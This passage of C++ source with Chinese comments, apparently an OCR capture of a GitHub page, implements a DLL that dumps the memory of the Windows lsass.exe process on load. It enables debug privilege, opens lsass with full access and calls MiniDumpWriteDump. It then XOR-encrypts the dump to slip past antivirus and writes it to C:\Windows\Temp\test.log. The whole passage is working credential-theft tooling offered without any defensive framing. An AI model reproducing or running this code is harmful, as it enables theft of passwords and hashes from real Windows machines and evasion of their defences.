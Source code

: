 ```cpp
	{
        return -1;
    }
    
    // 启用调试权限
    if (!EnableDebugPrivilege()) 
	{
        return -1;
    }

    // 获取lsass进程的PID
    lsassPID = GetLsassPID();
    
    // 打开 lsass.exe 进程，并获取进程句柄
    lHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

    //设置回调函数的参数，这里的回调函数是minidumpCallback
    MINIDUMP_CALLBACK_INFORMATION callbackInfo;
    ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
    callbackInfo.CallbackRoutine = &minidumpCallback;
    callbackInfo.CallbackParam = NULL;
    
    //调用MiniDumpWriteDump函数获取内存转储
    BOOL isD = MMiniDumpWriteDump(lHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);
    if (isD)
    {   
        // 对存放在堆内存中的数据进行xor加密
        long int size = bytesRead;
        char* securitySth = new char[size];
        char* key = (char*)"thisisgood";
        memcpy(securitySth, buffer, bytesRead);
        securitySth = Xorcrypt(securitySth, bytesRead, key);

        // 创建内存存储文件
        HANDLE outFile = CreateFile(L"C:\\Windows\\Temp\\test.log", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

        // 将xor加密后的数据写入存储文件中
        if (WriteFile(outFile, securitySth, bytesRead, &bytesWritten, NULL))
        {   

            //printf("\n[+] to C:\\Windows\\Temp\\test.log\n");
        }

        CloseHandle(outFile);
    }

    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, 
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
```